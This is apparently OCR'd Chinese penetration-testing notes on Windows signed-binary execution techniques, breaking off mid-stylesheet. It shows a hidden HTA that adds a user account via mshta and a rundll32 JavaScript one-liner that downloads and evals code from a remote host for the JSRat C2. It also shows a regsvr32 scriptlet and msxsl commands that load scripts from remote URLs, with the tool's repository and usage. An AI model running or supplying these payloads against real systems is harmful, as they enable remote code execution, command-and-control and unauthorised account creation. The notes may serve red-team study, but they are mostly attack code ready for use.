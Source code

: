 		- <HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user test password /add" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
		- mshta http://192.168.28.128/run.hta

- rundll32

	- C2框架JSRat

		- 仅为rundll32.exe和regsvr32.exe生成恶意程序
https://github.com/Hood3dRob1n/JSRat-Py.git
./JSRat.py -i lhost -p lport
url访问查看恶意代码

		- rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

- regsvr32

	- 执行命令

		- regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
		- <?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);
        ]]>
</script>
</registration>
</scriptlet>

- MSXSL.EXE

	- https://www.microsoft.com/en-us/download/details.aspx?id=21714

		- msxsl http://192.168.28.128/scripts/demo.xml http://192.168.28.128/scripts/exec.xsl
		- demo.xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
		- exec.xsl
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"